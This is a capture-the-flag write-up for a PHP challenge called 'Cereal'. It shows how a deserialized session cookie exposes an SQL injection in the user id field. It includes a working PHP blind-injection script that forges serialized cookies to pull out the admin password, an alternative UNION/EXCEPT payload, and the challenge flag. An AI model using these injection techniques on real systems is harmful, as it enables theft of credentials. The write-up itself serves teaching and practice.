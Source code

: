 # Cereal

## Solution

This challenge is vulnerable to SQL injection via the `refresh` function which is run when the session cookie is deserialized. The vulnerable parameter inside of the session is `id`. Using `profile.php` allows for leaking the admin's account information by setting the `id` to `0';--`. However, this does not give us the flag. It is presumed that the flag is probably in the password column, so I wrote a script to perform a blind injection to extract the flag.

```php
<?php
class User {
  public $username = 'guest';
  public $id = -1;
  protected $password = '5f4dcc3b5aa765d61d8327deb882cf99';
  protected $profile;
}

function curl($cookie) {
  $url = 'localhost:8000/profile.php';
  $headers = array('Cookie: auth=' . $cookie,);
  $curl = curl_init($url);
  curl_setopt($curl, CURLOPT_URL, $url);
  curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
  curl_setopt($curl, CURLOPT_HTTPHEADER, $headers);
  $resp = curl_exec($curl);
  curl_close($curl);
  return str_contains($resp, 'admin@admin.com');
}

function get_char($location) {
  $alphabet = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-!@#$%^&*(){}';
  $test = new User();

  foreach (str_split($alphabet) as $char) {
    $sqli = '1\' AND (SELECT hex(substr(password,' . $location . ',1)) FROM users WHERE username=\'admin\')=hex(\'' . $char . '\');--';
    $test->id = $sqli;

    if(curl(base64_encode(serialize($test))) === True) {
      return $char;
    }
  }
  print "search failed on position " . $location . "\xA";
  die();
}

$i = 1;
$flag = ''; 
print "FLAG: " . $flag . "\r";
while(($char=get_char($i)) != '}') {
  $flag = $flag . $char;
  print "FLAG: " . $flag . "\r";
  $i++;
}
$flag = $flag . $char;
print "FLAG: " . $flag . "\n";
?>
```

## Alternative Solution

We can see that in `config.php`, the `refresh` function, which is called when the user cookie is deserialized, fills the `$profile` variable which appears to be filled an array, the result of a SQL query for four different parameters in the user database. Since the SQL query is injectable through the `id` parameter, we can inject this SQL query in a way which will result in the `$profile` variable printing the results of the `admin` user by setting `id` to 0, and printing the `admin` user password by using the SQL injection to first exclude the previous database search using `except` keyword, and then `union` keyword to create our own query with the `admin` password. 

The query looks like this: 

```sql
0' except select username,email,favorite_cereal,creation_date from users where `id` = '0' union select username,email,password,creation_date from users where `id`='0'-- -
```

Once the `id` parameter is injected, the profile page at `profile.php` will print the password, which is the challenge flag, instead of the favorite cereal. 

Flag: `gigem{c3r3aL_t0o_sWe3t_t0d2y}`

